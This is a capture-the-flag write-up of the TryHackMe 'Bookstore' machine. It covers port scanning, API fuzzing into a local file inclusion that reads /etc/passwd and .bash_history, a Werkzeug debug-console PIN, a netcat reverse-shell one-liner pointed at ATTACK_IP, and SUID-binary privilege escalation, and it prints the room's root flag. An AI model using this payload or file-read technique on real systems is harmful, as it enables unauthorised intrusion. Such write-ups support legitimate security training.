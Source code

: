 ```yaml
---
title: "Bookstore TryHackMe"
layout: post
date: 2023-08-06 19:00
tag: 
- TryHackMe
- Pentesting
- Bookstore
- Linux
- Web
- Meduim
- API
image: https://tryhackme-images.s3.amazonaws.com/room-icons/aba19a5cfea503b401f5550cb1004e20.jpeg
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Summary

A meduim TryHackMe box, with basic web enumeration and API fuzzing.

---

# Namp

```bash
nmap -A -T4 10.10.255.130   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-06 13:58 +01
Nmap scan report for 10.10.255.130
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After accessing the web page in port 80 I found :

![!\[\[Pasted image 20230806140146.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140146.png>)

And port 5000 contains the following page :

![!\[\[Pasted image 20230806140127.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140127.png>)

![!\[\[Pasted image 20230806140218.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140218.png>)

The /api endpoint found in robots.txt gives us information how to use the request to the api :

![!\[\[Pasted image 20230806140255.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806140255.png>)

In the source code I found an interesting hint for LFI :

![!\[\[Pasted image 20230806142124.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806142124.png>)

Also in the source code of main.js I found another hint, so it may be an indication that there is a version 1 :

![!\[\[Pasted image 20230806141934.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806141934.png>)

![!\[\[Pasted image 20230806142329.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806142329.png>)

So there is actually a v1! Now, let’s fuzz the API (v1) to find a possible parameter that would allow to read arbitrary files :

```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.255.130:5000/api/v1/resources/books?FUZZ=/etc/passwd"
```

![!\[\[Pasted image 20230806143110.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143110.png>)

Found the vulnerable parameter! Now let's read /etc/passwd file :

![!\[\[Pasted image 20230806143244.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143244.png>)

Referring to the hint found let's read the user flag :

![!\[\[Pasted image 20230806141934.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806141934.png>)

![!\[\[Pasted image 20230806143609.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143609.png>)

Using **Gobuster** we can see the */console* endpoint :

![!\[\[Pasted image 20230806143805.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143805.png>)

Now let's read the .bash_history file as mentioned in the hint to find the PIN for /console :

![!\[\[Pasted image 20230806143531.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143531.png>)

PIN : 123-321-135

![!\[\[Pasted image 20230806143932.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806143932.png>)

The bellow blog from **HackTricks** show us how to exploit that :

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Now let's get a revshell :

```bash
__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACK_IP 9999 >/tmp/f').read();
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230806144510.png>)

![!\[\[Pasted image 20230806144343.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806144343.png>)

I am in as sid user!

# PE

I found an interesting file with the SUID bit set :

![!\[\[Pasted image 20230806145653.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806145653.png>)

I downloaded a copy of the binary and analyzed it in Ghidra. Below is the main() function :

![!\[\[Pasted image 20230806145620.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806145620.png>)

The program prompts for a number (local_1c), XORs it with `0x1116` and `0x5db3` (local_18) and compares the result with `0x5dcd21f4`. If they match, a root shell will be spawned.

Let’s do the reverse operation to get the correct value that will give us the ability to spawn a root shell:

![!\[\[Pasted image 20230806150722.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230806150722.png>)

# Root flag

<p>root@bookstore:~# id</p>
uid=0(root) gid=1000(sid) groups=1000(sid)
<p>root@bookstore:/root# cat /root/root.txt</p>
e29b05fba5b2a7e69c24a450893158e3

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>